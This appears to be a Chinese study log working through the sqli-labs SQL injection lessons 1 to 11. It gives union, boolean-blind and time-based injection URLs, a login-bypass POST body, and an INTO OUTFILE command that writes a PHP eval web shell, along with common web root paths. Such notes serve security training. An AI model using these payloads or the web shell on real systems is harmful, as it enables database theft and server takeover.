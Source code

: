 ## 第一天 1-20

### 第一题 
https://39.106.131.237/sqli/Less-1/?id=-1&#8242; union select 1,schema_name,3 from information_schema.schemata limit 5,1–+

### 第二题
https://39.106.131.237/sqli/Less-2/?id=1 and 1=2 union select 1,2,3 from information_schema.schemata–+

### 第三题
http://202.206.96.155:8081/sqli-labs/Less-3/?id=999′) union select 1,2,3 and (‘1’=’1
这个添加了括号 要先用括号闭合 而且回显有错误所以就很好构造了

### 第四题
http://202.206.96.155:8081/sqli-labs/Less-4/?id=-1″) union select 1,2,3 and (“1″=”1
这个涉及到一个知识点 双引号可以包含单引号 所以要把单引号改成双引号

### 第五题
http://202.206.96.155:8081/sqli-labs/Less-5/?id=-1′ or 1=(select if(ascii(substr(database(),1,1))>115,1,2))–%20 基于布尔的盲注 反正我是这样做出来的

### 第六题
http://202.206.96.155:8081/sqli-labs/Less-6/?id=-1” or 1=(select if(ascii(substr(database(),1,1))>115,1,2))–%20 well 改成双引号就好了。。。

### 第七题
http://202.206.96.155:8081/sqli-labs/Less-7/?id=1’ and 1=(select if(ascii(substr(database(),1,1))>115,1,2)) and ‘1’=’1
不知道怎么的 注释突然不管用了
而且这个题根据题目的提示 还涉及到into outfile
常用的语句是：
````select “<?php @eval($_POST[‘giantbranch’]);?>” into outfile “XXX\test.php” ````当这里要获取到网站的在系统中的具体路径（绝对路径）
这个要怎么获取呢，根据系统和数据库猜测，如winserver的iis默认路径是c:/inetpub/wwwroot/，这好像说偏了，这是asp的，但知道也好
linux的nginx一般是/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm等
apache 就/var/www/htm，/var/www/html/htdocs
@@datadir 读取数据库路径
@@basedir MYSQL 获取安装路径

### 第八题
http://202.206.96.155:8081/sqli-labs/Less-8/?id=1′ and 1=(select if(ascii(substr(database(),1,1))>115,2,2)) and ‘1’=’1
难道这句话通杀麽。。。

### 第九题
http://202.206.96.155:8081/sqli-labs/Less-9/?id=1′ and (select if(ascii(substr(database(),1,1))>115,sleep(5),2)) and ‘1’=’1
题目提示了是基于时间的注入

### 第十题
http://202.206.96.155:8081/sqli-labs/Less-10/?id=1″ and (select if(ascii(substr(database(),1,1))>115,sleep(5),2)) and “1”=”1
http://202.206.96.155:8081/sqli-labs/Less-10/?id=1&#8243; and (select if(1=1,sleep(5),2)) %23
这次试了试注释 好用

### 第十一题
我猜的原来的查询语句样子：
select * from tablename where username=$_[‘username’] and password=$_[‘password’]
post内容 uname=a’ or 1 –%20&passwd=

### 第十二题
````